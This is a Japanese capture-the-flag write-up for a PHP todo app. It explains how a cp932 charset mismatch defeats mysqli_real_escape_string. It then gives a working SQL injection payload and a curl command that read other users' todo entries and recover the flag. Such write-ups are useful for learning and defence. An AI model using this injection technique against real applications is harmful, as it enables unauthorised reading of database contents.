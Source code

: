 ``` php
$ie = (isset($_GET['ie']) === true) ? preg_replace('/[^a-z0-9]/', '', strtolower((string)$_GET['ie'])) : mb_internal_encoding();
$ie = ($ie !== 'sjis') ? $ie : die('sjis? so sweeeeeeeeeet');
mysqli_query($link, sprintf('set names %s', $ie));
```

というのが気になるので、これを調べる。
phpとdbのencodingの認識の差を用いた脆弱性があることが分かる。
例えば、`char s[3] = { 0x95, '\\', '\'' };`というbyte列が、utf8では`謎の文字` `\` `'`と解釈されるが、sjisあるいはcp932では`表` `'`と解釈される。utf8としてquoteを行うと`謎の文字` `\` `\` `\` `'`となるが、この結果をsjisとして解釈してunquoteすると`表` `\` `'`となる。最後の`'`は生の`'`であるので、injectionが成立する。
`sjis`は弾かれるが`cp932`は弾かれないようになっているので、これを`/?ie=cp932`と指定する。

次に、入力箇所を探す。
`$userID`からのinjectionは`preg_match('/[^a-zA-Z0-9]/', $userId)`といった確認が入るのでだめ。
`$password`は`$password = hash_hmac('sha512', $password, YAMATODO_SALT);`と処理されるのでこれもだめ。
残るはlogin後の`$body`で、これはinjectionできる。

``` php
$sql = sprintf("insert into todos (`user_id`, `body`, `create_at`) values ('%s', '%s', NOW())",
    mysqli_real_escape_string($link, $_SESSION['user_id']),
    mysqli_real_escape_string($link, $body)
);
mysqli_query($link, $sql);
```

という形で入る。


とりあえず適当にregisterしてloginする。短い名前にしておく楽。

``` sh
# user_id: N
$ python -c 'print(ord("N"))'
78
$ PHPSESSID=$(ブラウザからこぴぺ)
```

``` sh
$ python -c 'print(*map(ord,"yamato"))'
121 97 109 97 116 111
```

いんじぇくと☆（ゝω・）v

``` sh
$ sql=%95$(urlencode \\\'', now()), (concat(char(78)), (select hex(body) from todos as t where user_id = concat(char(121),char(97),char(109),char(97),char(116),char(111)) limit 1 offset 0), now()); # ')
$ curl --dump-header - 'http://210.146.64.44/?ie=cp932' -H 'Cookie: PHPSESSID='$PHPSESSID -H 'Authorization: Basic eWFtYXRvY3RmOkdVbjdTbjFMVkpRWkJ3eUc4d1pQQUl0bm9CWjA0VGx4' --data body=$sql
```

`offset 0`の部分をincrementしながら全部出力させる。

`flag = mkafh98hwaofnaslh08y4830fjioafnlka`とあるが、これを投げても通らない。これはもしかしたら他の参加者が勝手に追加したものなのかもしれない。
`Yo! check the first todo☆（ゝω・）v`とあるので、1番目のtodoを見る。
文字化けしているが、これをeucjpで見ると、`半角でサブミットしてください☆（ゝω・）v ｆｌａｇ＝｛ｒ３ｍ３Ｍｂ３ｒ＿５ｃ＿ｐｒ０ｂＬ３ｍ｝`。
`r3m3Mb3r_5c_pr0bL3m`。


[^1]: かなり偶然上手くいっただけっぽい。